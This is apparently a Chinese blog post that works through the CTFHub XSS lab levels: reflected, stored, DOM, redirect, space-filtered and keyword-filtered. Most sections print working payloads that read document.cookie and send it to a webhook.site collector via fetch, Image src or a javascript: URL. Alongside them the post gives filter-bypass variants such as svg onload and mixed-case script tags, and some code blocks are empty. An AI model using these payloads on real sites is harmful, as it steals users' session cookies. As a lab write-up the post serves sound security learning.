






+++
date = '2026-05-27T12:50:14+08:00'
draft = false
title = 'Xss Ctfhub'
+++

# ctfhub技能树xss靶场

这个靶场需要使用xss平台来获取bot访问携带的cookie等信息，需用借用到第三方平台我使用的是[Webhook.site - Test, transform and automate Web requests and emails](https://webhook.site/#!/view/ac6a21ad-4a8e-4d9b-8e6b-a4a32493939f/12e433b3-a4ea-4532-a3ed-caa7f5586fcd/1)

前置深化知识，url请求拼接查询

fetch请求：要想用fetch请求引导js访问，必须把fetch放在<script>标签之间或者是在标签内部通过一些事件属性来访问这个fetch网址

```
<script>
  fetch('http://xxxxxxx/?c=' + document.cookie);
</script>
```

```

```

还有就是写进payload的+ /等符号，如果不适用url编码可能会被当作空格处理

## 反射型xss

第一关上来，可以看到整个靶场的思路，先是一个submit，用来验证xss漏洞来的，然后就是下面的send to bot 这个用来模拟真实用户访问我们的xss注入脚本来获取到flag的过程，

先验证**<script>alert(1)</script>script>**这个payload来确认xss漏洞的存在

在第一关里面我们使用这个payload：



服务器直接502，代码中的 `+` 号、`'` 单引号在未经妥善 URL 编码的情况下发送给服务器，极易导致后端解析 URL 参数时发生错位，甚至引发服务器脚本报错。

可以通过反引号去掉+  payload：

```

```



就可以去扎到flag

## 存储型xss

这一关很快就能发现奇怪的地方，输入了payload进去发现url并没有变化发现这一关是一个post请求提交的，这种存储型的xss，在我们提交了post请求之后，这个数据就已经被写入到了数据库，后面每个访问这个网址的人都会被xss注入

只需要刷新页面提交当前的url，bot访问这个页面就会拿到bot的cookie

## DOM反射

DOM型的xss漏洞说白了就是前端js逻辑过滤，前端没有waf干净我们的输入，这个是发生在前端的，不想反射型和存储型发送到了后端服务器



找到输入的地方要闭合,在输入内容最前方要闭合单引号，然后；分号结束语句，最后在末尾//来注释掉末尾的符号

所以这里可以通过fetch的方式引导访问网页

也可以通过new Image().src的方式去访问

```
'; new Image().src = 'https://webhook.site/ac6a21ad-4a8e-4d9b-8e6b-a4a32493939f/?c=' + document.cookie; //
```

## DOM跳转

这一关进来发现submit就没了 



```
var target = location.search.split("=")
if (target[0].slice(1) == "jumpto") {
    location.href = target[1]; // <--- 漏洞核心：Sink（输出点）
}##这个是刚才那个前端源码关键点
```

**`location.search`**：这是 JavaScript 的内置属性，用来获取 URL 中问号 `?` 及其后面的所有内容。

**`.split("=")`**：这是一个字符串分割函数，意思是“看到等号 `=`，就把字符串切开，变成一个数组”。

注入点就是这个参数，输入?jumpto=javascript:alert(1)发现了可弹窗，这里是一个注入点，有弹窗就可以去操作了

```
?jumpto=javascript:fetch('https://webhook.site/ac6a21ad-4a8e-4d9b-8e6b-a4a32493939f/' + document.cookie)
```

## 过滤空格

这一关狠明显过滤掉了空格，但是这个payload：`<Script>fetch('https://webhook.site/ac6a21ad-4a8e-4d9b-8e6b-a4a32493939f/?c='+document.cookie)<Script>`也会触发waf，这是因为在get请求的url解析中，+号会被很多服务器自动解析为空格

可以想到这个使用/代替空格的这个payload

```

```

但是这个/src=1/这个会被解析成图片路径，返回一个报错404，用url编码替代/是一个思路，但是在这%0a在这被当成字符串原样输出



参考的csdn上的文章使用这种payload过关

```

```

但是这种查到的参数c=123,我换成document.cookie就直接给我返回原字符，

我就不知道为什么了，让codex跑题出来的payload是这个

```
<svg/onload=fetch('https://webhook.site/ac6a21ad-4a8e-4d9b-8e6b-a4a32493939f?c='+encodeURIComponent(document.cookie))>
```

## 过滤关键词

直接试错，过滤掉了script，那这个就不难了，直接试试大小写绕过



直接就绕过了，

payload`<Script>fetch('https://webhook.site/ac6a21ad-4a8e-4d9b-8e6b-a4a32493939f/?c='+document.cookie)`

然后拿到的url发给bot就ok了
